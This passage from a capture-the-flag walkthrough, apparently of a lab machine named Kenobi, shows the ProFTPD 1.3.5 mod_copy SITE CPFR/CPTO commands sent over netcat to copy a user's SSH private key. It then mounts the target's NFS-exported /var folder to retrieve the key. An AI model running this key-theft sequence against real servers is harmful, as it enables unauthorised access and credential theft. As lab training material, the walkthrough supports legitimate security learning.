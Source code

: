 2\. How many exploits are there for the ProFTPd running?

```
4
```

Now let’s copy kenobi private key from ‘/home/kenobi .ssh/’ to ‘/var/tmp/’ folder but first connect to port 21 with netcat

```
#nc 10.10.49.245 21  
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) \[10.10.49.245\]  
SITE CPFR /home/kenobi .ssh/id\_rsa  
550 /home/kenobi .ssh/id\_rsa: No such file or directory  
SITE CPFR /home/kenobi/.ssh/id\_rsa  
350 File or directory exists, ready for destination name  
SITE CPTO /var/tmp/id\_rsa  
250 Copy successful  
421 Login timeout (300 seconds): closing control connection
```

**CPFR** Copy from  
**CPTO** Copy To

Now, let’s mount the ‘/var/’ folder to our attack machine

```
┌──(kali㉿kali)-\[~\]  
└─$ sudo mount 10.10.49.245:/var/ /mnt/kenobiNFS                                                                                                                                                          148 ⨯ 1 ⚙  
                                                                                                                                                                                                                      
┌──(kali㉿kali)-\[~\]  
└─$ la -la /mnt/kenobiNFS/                                                                                                                                                                                      1 ⚙  
total 56  
drwxr-xr-x 14 root root    4096 Sep  4  2019 .  
drwxr-xr-x  3 root root    4096 Mar 18 22:36 ..  
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups  
drwxr-xr-x  9 root root    4096 Sep  4  2019 cache  
drwxrwxrwt  2 root root    4096 Sep  4  2019 crash  
drwxr-xr-x 40 root root    4096 Sep  4  2019 lib  
drwxrwsr-x  2 root staff   4096 Apr 12  2016 local  
lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock  
drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log  
drwxrwsr-x  2 root mail    4096 Feb 26  2019 mail  
drwxr-xr-x  2 root root    4096 Feb 26  2019 opt  
lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run  
drwxr-xr-x  2 root root    4096 Jan 29  2019 snap  
drwxr-xr-x  5 root root    4096 Sep  4  2019 spool  
drwxrwxrwt  6 root root    4096 Mar 18 22:36 tmp  
drwxr-xr-x  3 root root    4096 Sep  4  2019 www
```
